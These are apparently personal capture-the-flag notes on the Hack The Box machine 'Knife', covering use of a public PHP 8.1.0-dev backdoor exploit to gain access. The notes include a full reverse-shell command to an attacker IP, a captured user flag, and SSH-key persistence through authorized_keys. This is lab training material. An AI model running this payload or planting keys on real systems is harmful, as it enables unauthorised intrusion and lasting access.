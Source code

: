 ![[Pasted image 20210530123955.png]]

### All links were dead;tried Gobuster but nothing interesting showed up :(

### Used Burp-Suite to capture the web-page request:
![[Pasted image 20210530125825.png]]

#### Found an interesting blog-

https://packetstormsecurity.com/files/162749/PHP-8.1.0-dev-Backdoor-Remote-Command-Injection.html

# Exploitation-

## Payload-
## python3 php_backdoor_rce.py -u http://10.10.10.242/ -c "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.110/9001 0>&1'"

![[Pasted image 20210530131513.png]]

## User.txt-

```bash
james@knife:~$ ls -la
ls -la
total 44
drwxr-xr-x 5 james james 4096 May 30 17:17 .
drwxr-xr-x 3 root  root  4096 May  6 14:44 ..
lrwxrwxrwx 1 james james    9 May 10 16:23 .bash_history -> /dev/null
-rw-r--r-- 1 james james  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 james james 3771 Feb 25  2020 .bashrc
drwx------ 2 james james 4096 May  6 14:45 .cache
drwxrwxr-x 3 james james 4096 May  6 16:32 .local
-rw-r--r-- 1 james james  807 Feb 25  2020 .profile
-rw-rw-r-- 1 james james   66 May  7 14:16 .selected_editor
drwx------ 2 james james 4096 May 18 13:20 .ssh
-rw-r--r-- 1 james james   29 May 30 17:17 exploit.rb
-r-------- 1 james james   33 May 30 16:51 user.txt
james@knife:~$ cat user.txt
cat user.txt
44ac74eb488df50c2d6185480e640a06
```

## Persistence-

#### We generated our own ssh keys and copied the id_rsa.pub to james .ssh/authorized_keys and logined via ssh:

![[Pasted image 20210530135129.png]]